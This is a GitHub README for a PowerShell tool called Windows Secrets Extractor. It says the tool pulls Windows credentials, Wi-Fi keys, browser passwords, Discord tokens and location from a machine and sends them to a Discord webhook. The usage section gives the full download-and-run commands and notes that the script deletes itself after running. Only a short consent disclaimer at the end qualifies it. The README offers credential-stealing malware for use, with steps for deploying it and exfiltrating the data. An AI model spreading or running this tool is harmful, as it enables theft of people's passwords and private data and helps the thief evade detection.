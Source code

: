 # Windows Secrets Extractor

**Windows Secrets Extractor** allows you to get (in clear text) windows "secrets" informations such as :
- Windows informations (Os name & version, Username, Domain etc...)
- Windows Credentials
- Windows WLAN & Keys
- Edge Credentials
- FireFox Credentials
- Computer Location

***

### Requirements
- PowerShell [CredentialManager](https://www.powershellgallery.com/packages/CredentialManager/2.0) module.
> (Optionnal) Python 3, if you want Discord Token Grab


### Configuration
- Create a Discord WebHook [help](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks)
- Adapt line ``3`` and enter your WebHook URL.

***

### Usage
1. Download the script :

```
Invoke-WebRequest https://raw.githubusercontent.com/danglock/Windows-Secrets-Extractor/main/extractor.ps1 -outfile $env:USERPROFILE\extractor.ps1
```

3. Run the Script :

```
cd $env:USERPROFILE;.\extractor.ps1
```

Note: the script will auto-destroy after execution

***
Be careful, I am not responsible for your use of this script.
Please do not use it against machines whose owner has not given you their consent
